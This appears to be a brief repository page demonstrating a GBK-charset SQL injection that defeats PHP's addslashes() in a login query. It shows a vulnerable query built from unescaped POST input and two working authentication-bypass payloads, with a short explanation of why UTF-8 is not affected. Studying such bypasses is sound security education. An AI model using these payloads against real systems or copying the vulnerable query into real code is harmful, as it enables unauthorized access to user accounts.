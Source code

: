 # SQL-injection---Authentification---GBK1
$name = $_POST['name']; 

$query = "SELECT * FROM users WHERE name = '$name'";

$username = chr(0x87) . "' OR database() LIKE 0x2525 -- ";

$username = "尐' OR database() LIKE 0x2525 -- ";

This is how addslashes()’s protection can be fooled when the database uses the GBK charset. Does this happen in UTF-8? Nope; this encoding does not have characters that end in 0x5C.

Note: be sure to have these fonts installed or you’ll only be able to see squares or question marks instead of the actual GBK characters.
